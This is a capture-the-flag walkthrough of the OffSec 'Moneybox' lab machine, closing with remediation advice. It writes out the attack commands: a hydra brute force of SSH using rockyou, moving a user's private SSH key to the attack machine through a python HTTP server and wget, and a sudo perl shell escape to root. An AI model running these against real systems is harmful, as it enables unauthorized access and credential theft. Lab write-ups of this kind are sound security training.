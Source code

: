 Offsec <br>
Moneybox
---

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/54b1acc6-bca3-4ace-861b-24c00ebc55b7)

# Reconnaissance/Scanning:
Let’s start things off with a network scan to see which ports are open and the services running on each.
```
$ nmap -A -O -sC -sV -p- <machine_IP>
```
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/e0b58188-cfa5-4311-859b-6ce14edb9319)

Next, I ran a gobuster scan and found a directory to check. <br>

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/46c519a2-94fc-4f2e-9fdb-52967d143e5a)
 
I got on the FTP server and downloaded the picture and tried to use some steganography tools on it, but, no luck. <br>
Or I wasn’t using the right wordlist. <br>
Visiting the webpage showed this: <br>

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/fbd27e6d-9c94-4309-8f39-5cfc33453765)

Then on the */blogs* page: <br>

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/2eda2bcb-f6b2-4169-ae8d-32203c6afb0b)

I viewed the source code to see if the hint was there. <br>

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/7b3330a6-0611-40f7-bd41-607c696f8533)

Checking that directory: <br>

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/d95d1d5d-ac62-47a5-85fa-f1088fdd81e5)

A likely story, let’s see if the source code has a different opinion. <br>
Looks like the key for the image from the FTP server! <br>

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/c251173d-4833-4f5c-95fd-9dec2c0a78b6)

It sure was!

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/f4765a9b-98f4-42a3-ab37-fe5122f4b88a)

The contents of the text file:

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/88e55e90-1959-4fbc-bf24-24b2a1b7504d)

# Initial foothold:
Got a username, now the next step (since it’s a weak password) is to try to bruteforce the SSH server.
```
$ hydra -l renu -P /usr/share/wordlists/rockyou.txt <machine_IP> ssh
```
![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/0b0d9f93-741e-47e6-8867-bcaef485645f)

Got access to the machine now.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/457d1ea6-a1e5-4b5f-9df9-8baf08c57f29)

I’ll grab the user flag in the user’s home directory.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/4d36b715-e4a5-43a2-ab5d-e4d48a978a2c)

Trying to escalate my privileges, I found I couldn’t run anything as root and there were no cronjobs. <br>
Viewing the */etc/passwd* file there was another user named lily.  <br>
I checked for hidden folders in the user renu’s home directory and found the .bash_history file doesn’t erase the output.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/d41a6529-13ae-4bb6-94f6-fe003529bd8a)

I’ll explain why I found this a goldmine.
```
$ ssh-keygen -t rsa 
# means this user made an rsa key.

$ ssh-copy-id lily@<machine_IP> 
# means to use locally available keys to authorize logins on a remote machine

$ chmod 400 id_rsa
# means that the file permissions are being changed to read only
# (needed permissions when using the rsa key to SSH)
```
With that knowledge, I changed directories into renu’s .ssh directory,  <br>
started up a python server and downloaded the file to my local machine.
```
$ python3 -m http.server <PORT>
# (on target machine) starts a python server on port of choice

$ wget http://<machine_IP>:<PORT>/path/to/file
# (on attack machine) grabs the file of choice to local computer
```
Now I can try to SSH as lily into the machine.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/6770fd87-9f4d-4051-b2be-dbd80ceda0c0)

# Privilege escalation:
Cool, first thing is to check what this user can run as root and try to escalate privileges.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/6c5ed1d8-1dd9-4034-9973-d0cab5d784ca)

This is great, there’s a way in! Checking on *gtfobins[.]net* for perl showed me a command to use to escalate privs.
```
$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
```
Root access!

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/89883dc8-a8d8-4b3a-9c3e-9c01b7dbd7b9)

I’ll grab the last flag now.

![image](https://github.com/xocybersec/OffSec-Walkthroughs/assets/91302698/fb3d94bb-2aa7-4d66-a5fd-e7f3e9db29a9)

# Reporting:
* It’s highly advised to disable anonymous login on the FTP server. <br>
* Enable account lockout on the SSH server to prevent bruteforce attacks. <br>
* Check permissions of users/groups to make sure they’re configured properly. <br>
* Passphrase protect the SSH private key files.<br>
* Make sure files containing sensitive information are accessible by the proper people only <br> 
and password protected with a strong password.











